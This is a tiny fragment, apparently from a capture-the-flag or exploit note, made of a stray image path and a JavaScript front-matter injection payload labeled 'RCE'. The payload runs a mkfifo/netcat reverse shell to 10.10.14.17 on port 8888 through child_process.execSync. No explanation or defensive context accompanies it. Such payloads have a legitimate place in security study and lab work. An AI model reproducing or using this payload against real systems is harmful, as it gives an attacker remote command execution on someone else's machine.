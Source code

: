 ---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.17 8888 >/tmp/f"))\n---RCE


